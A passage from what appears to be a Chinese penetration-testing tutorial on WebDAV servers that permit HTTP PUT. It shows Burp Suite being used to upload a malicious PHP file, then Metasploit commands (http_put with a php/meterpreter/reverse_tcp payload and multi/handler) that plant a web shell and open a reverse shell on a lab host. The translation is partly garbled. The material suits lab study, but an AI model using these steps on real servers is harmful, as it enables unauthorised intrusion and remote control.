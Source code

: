 Burpsuite是最受欢迎的代理拦截工具之一，其图形界面可以有效地用于分析所有类型的GET和POST请求。

配置最终用户浏览器的手动代理设置，以拦截GET请求浏览URL http://192.168.1.103但不要按Enter键。与此同时，让我们导航到Burpsuite **Proxy**选项卡，然后单击**Intercept**子 选项下的**Intercept** **is on**选项，以捕获请求。一旦我们在用户的浏览器中点击ENTER，我们就可以在拦截窗口下获取数据。

现在右键单击同一窗口，将显示多个选项的列表。进一步单击**Send** **to repeater。**

 **![img](https://i0.wp.com/2.bp.blogspot.com/-ZwOoTL28hMg/W77rjvwmKPI/AAAAAAAAapY/bbI2afPf4NEQzq_uPTGcXGrE3LG4m2QvQCEwYBhgL/s1600/13.png?w=687&ssl=1)**

在下面突出显示的屏幕截图中，我们将分别观察两个面板 - 分别为HTTP Request和HTTP Response的左侧和右侧。可以在HTTP请求中观察到GET方法，现在我们将用PUT方法替换GET，以便上传名为**burp.php**的文件，该文件包含恶意内容/代码。

型**PUT /dav/burp.php HTTP / 1.1**中的标题，然后粘贴在PHP恶意代码从<？PHP的开始死亡（）在请求结束时，如下所示。这将上传burp.php文件下通过PUT请求的dav目录。

![img](https://i2.wp.com/2.bp.blogspot.com/-qQhk13RoVhw/W77rjxnWxjI/AAAAAAAAaq0/8iBXssgaXX8I2-NiSK_TyR2PibAWuE5lwCEwYBhgL/s1600/14.png?w=687&ssl=1)

通过在最终用户的浏览器中浏览相同的URL 192.168.1.103/dav来验证并确认文件上载，我们可以看到**burp.php**文件已上载到Web服务器的/ dav目录中。

![img](https://i2.wp.com/2.bp.blogspot.com/-AyBQmVxBQAU/W77rkCU45NI/AAAAAAAAaqs/cfwoBynG2s8BW8C_tjKKEtDCtOKXkBmNACEwYBhgL/s1600/15.png?w=687&ssl=1)

同时，打开metasploit MSF控制台并使用multi / handler; 然后回到以前上传的**burp.php**文件并运行它。这将为我们提供一个预备会话。

![img](https://i1.wp.com/4.bp.blogspot.com/-847UTwuj7Ic/W77rkILqtQI/AAAAAAAAaqo/eGJGmT_PuNoKNwT5JUwRk8k7n20swx4EwCEwYBhgL/s1600/16.png?w=687&ssl=1)

### **0x07Metasploit**

Metasploit Framework是一个众所周知的开发，测试和执行漏洞的平台。它是一种用于对目标计算机执行各种攻击的开源工具。此模块可以滥用配置错误的Web服务器，通过PUT和DELETE HTTP请求上传和删除Web内容。将ACTION设置为PUT或DELETE。PUT是默认值。

Metasploit内置了专用于扫描HTTP方法的辅助模块，并使我们能够使用辅助/ scanner / http / http_put输出文件.Below是完成相同操作的命令



| **1** | **msf> use auxiliary/scanner/http/http_put**                 |
| :---: | ------------------------------------------------------------ |
| **2** | **msf>auxiliary (http_put) > set rhosts 192.168.1.103**      |
| **3** | **msf>auxiliary (http_put) > set payload php/meterpreter/reverse_tcp** |
| **4** | **msf>auxiliary (http_put) > set path /dav/**                |
| **5** | **msf>auxiliary (http_put) > set filename meter.php**        |
| **6** | **msf>auxiliary (http_put) > set filedata file://root/Desktop/meter.php** |
| **7** | **msf>auxiliary (http_put) > exploit**                       |

![img](https://i1.wp.com/1.bp.blogspot.com/-UgEr2Yr62zc/W77rkVegsHI/AAAAAAAAaqw/_g91tLVqKZYk0Xdok8MV99PNwXs5Wf_lwCEwYBhgL/s1600/17.png?w=687&ssl=1)

在浏览器192.168.1.103/dav中键入相同的URL并执行相同的操作。从屏幕截图中可以看出，文件meter.php已经上传到Web服务器上。

 **![img](https://i1.wp.com/4.bp.blogspot.com/-tOZRLMDQ8y4/W77rkhs-ilI/AAAAAAAAaqw/0spu0p-6fxoFpSortWVf99HYJLKHPMCVACEwYBhgL/s1600/18.png?w=687&ssl=1)**

同时，打开metasploit MSF控制台并使用multi / handler; 然后回到之前上传的**meter.php**文件并运行它。这将为我们提供一个预备会话。
